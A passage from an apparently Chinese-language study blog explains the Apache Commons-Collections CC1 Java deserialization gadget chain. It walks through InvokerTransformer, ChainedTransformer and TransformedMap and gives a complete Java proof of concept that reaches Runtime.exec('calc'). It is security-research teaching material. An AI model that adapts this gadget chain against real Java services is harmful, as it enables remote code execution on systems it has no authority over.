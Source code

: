 我们需要向 getMethod 方法里传入一个 name ，即需调用的方法名，第二个参数就是一个可变参数，所以刚才的 new Class[0] 即对应的可变参数，而 Class[].class 即是他的类型，是因为 InvokerTransformer 的第二个参数需要，

所以刚才的 payload 构造过程已经清晰了，刚才的 payload 只需要反序列化后调用了 transform 方法即可RCE，现在就需要找一个反序列化的点，然后能调用到 transform 即可

在 ysoserial 中使用的是 Lazymap 这个类，而P师傅则用的 TransformedMap 这个类，先看P师傅的吧：

#### TransformedMap类的利用

JDK1.8(无法利用，JDK1.7即可)

- TransformedMap

TransformedMap的作用是来修饰Map的一个类，被修饰过的Map在添加新的元素时，将可以执⾏⼀个回调。修饰函数如下：

```java
    public static Map decorate(Map map, Transformer keyTransformer, Transformer valueTransformer) {
        return new TransformedMap(map, keyTransformer, valueTransformer);
    }
```

第一个参数即是需要传入的map，第二个参数就是处理新元素的Key的回调，第三个参数就是处理新元素的value的回调。

这里的回调不是说的回调函数，而是⼀个实现了 Transformer 接⼝的类，

上面我们使用的是 ChainedTransformer 类的 transform 方法来回调到 InvokerTransformer 类中的 transform 方法反射出恶意类，P师傅则是用的 TransformedMap 来回调到 InvokerTransformer 类中的 transform 方法反射出恶意类，代码如下：

```java
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.*;
import org.apache.commons.collections.map.TransformedMap;

import java.io.IOException;
import java.util.HashMap;
import java.util.Map;

public class cc1{

    public static void main(String[] args) throws IOException {
        Transformer transformerChain = new ChainedTransformer(new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[] {
                        String.class, Class[].class},new Object[] {
                        "getRuntime", new Class[0]}),
                new InvokerTransformer("invoke", new Class[] {
                        Object.class, Object[].class}, new Object[] {
                        null, new Object[0]
                }),
                new InvokerTransformer("exec", new Class[] { String.class }, new Object[]{"calc"})
        });

        Map innerMap = new HashMap();
        Map outerMap = TransformedMap.decorate(innerMap, null, transformerChain);
        outerMap.put("test", "xxxx");
    }
}
```
